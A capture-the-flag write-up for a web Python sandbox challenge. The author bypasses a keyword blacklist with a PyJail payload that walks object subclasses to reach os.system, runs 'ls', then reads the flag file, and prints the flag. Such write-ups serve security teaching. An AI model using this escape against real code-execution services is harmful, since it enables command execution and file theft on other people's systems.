 # outdated
> I found this old website that runs your python code, but the security hasn't been updated in years

> I'm sure there's a flag floating around, can you find it?

## About the Challenge
We were given a website and a source code. (You can download the source code [here](server.zip))

![preview](images/preview.png)

So, this website can run our python code but there are some blacklisted keywords, for example: `__import__` or `__builtins__` and other restriction like we need to input ASCII character and we cant upload a very large file, etc.

## How to Solve?
This is like PyJail challs but in web version, so to solve this. Im using one of the PyJail payload:

```python
print(dict.__class__.__base__.__subclasses__()[132].__init__.__globals__["sys"].modules["os"].system("ls"))
```

And the result was

![ls](images/ls.png)

And then change the `ls` command to `cat flag-0f8794c6-9e3b-4458-8ee6-eeb6b3a34a68.txt` to obtain the flag

![flag](images/flag.png)

```
tjctf{oops_bad_filter_3b582f74}
```